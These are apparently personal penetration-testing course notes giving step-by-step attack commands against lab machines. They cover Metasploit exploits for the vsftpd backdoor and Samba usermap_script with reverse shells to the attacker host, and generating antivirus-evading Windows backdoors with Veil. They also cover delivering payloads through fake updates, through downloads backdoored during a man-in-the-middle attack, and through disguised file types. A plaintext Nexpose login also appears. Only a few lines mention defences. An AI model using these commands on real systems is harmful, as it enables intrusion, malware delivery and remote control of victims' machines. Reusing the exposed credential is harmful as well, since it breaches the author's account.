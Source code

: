 ﻿# Server Side Attacks
## Information Gathering

### zenmap Intense Scan --> Google por open port services
### Look for misconfigurations, backdoors

## Metasploit Exploit
`msfconsole`
### Ftp port 21 vulnerability
`use exploit/unix/ftp/vsftpd_234_backdoor`
`set RHOST 10.0.2.5`
`exploit`

### Samba 3.X vuln. Let's us execute payloads on target computer (not linux cmds)
## bind: opens port so host machine can access victim's machine
## reverse: opens port on host machine so victim's machine connects to us. Bypasses firewalls.
`use exploit/multi/samba/usermap_script`
`set RHOST 10.0.2.5`
`set PAYLOAD cmd/unix/reverse_netcat`
`set LHOST 10.0.2.15` #host machine ip
`set LPORT 5555` #could be 80 so it goes through with no problem.
`exploit`

## Nexpose
### Discover, assess and act on vulns.
### Shows exploits published other than metasploit.
### Reports for tech + managers
### Periodic scans: weekly/monthly
username: ppwason
password: ppwason1!

Stop postgresql
`service postgresql stop`
`cd /opt/rapid7/nexpose/nsc`
`./nsc.sh`



# Client Side Attacks
## Information Gathering. Focused on the person
### Need to be the MITM
## Veil Framework. Undetectable Backdoors for Windows
## Always UPDATE VEIL. It updates its code to make better backdoors
`list`
### 2 tools: Evasion (generates backdoors) & Ordnance (generates payloads used by Evasion).
`use 1`
`list`
### Jerarqy of path: <program language>/<type of payload>/<method to establish connection>
go/meterpreter/rev_https.py: program language Go executed in meterpreter using a reverse https. Reverse = the connection is going the other way. The victim connects to the host.

This backdoor is only captured by AVG Antivirus
`cd /opt/Veil`
`./Veil.py`
	`list`
	`use 1`
	`list`
	`use 15`
	`set LHOST 10.0.2.15`
	`set LPORT 8080`
	`set PROCESSORS 1`
	`set SLEEP 6`
	`options`
	`generate`
This generates .exe

## Metasploit
### Open port 8080 on host machine to listen to the connection
`msfcondole`
	`use exploit/multi/handler`
	`show options`
	`set PAYLOAD windows/meterpreter/reverse_https`
	`set LHOST 10.0.2.15`
	`set LPORT 8080`
	`exploit`
To Test: In Windows, download it from the webserver of kali, execute and watch metasploit terminal.

## Hacking Windows 10 Using Fake Update
## WORKS ONLY ON HTTP

`cd /opt/evilgrade`
`./evilgrade`
	`show modules`
	`configure dap`
	`show options`
	`set agent /var/www/html/backdoor.exe`
	`set endsite`
	

## Backdooring Downloads on the Fly to Hack Windows 10
`cd /opt/BDFProxy`
`gedit bdfproxy.cfg`
	change ip in windows (both) to tell it to connect to host machine
`./bdf_proxy.py`
### Running Bettercap to be the MITM
`bettercap -iface eth0 -caplet spoof.cap`
### Redirecting traffic from bettercap to BDFProxy
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`

`msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc`
Wait for connection

## How to avoid
### Avoid being MITM'ed
1. Xarp
2. HTTPS pages,
3. Check file MD5 after download


## Social Engineering
### Don't need to be the MITM
### Most important thing: Information Gathering
## Maltego


## Backdooring Any File Type
iconarchive.com 
rw-designer.com/image-to-icon
Using program Autoit, upload the .au3 file (downloaded from resource) and an icon. Convert and upload to webserver. Download in Windows and execute.

### Spoofing .exe Extension to Any Extensino (jpg,pdf,etc)




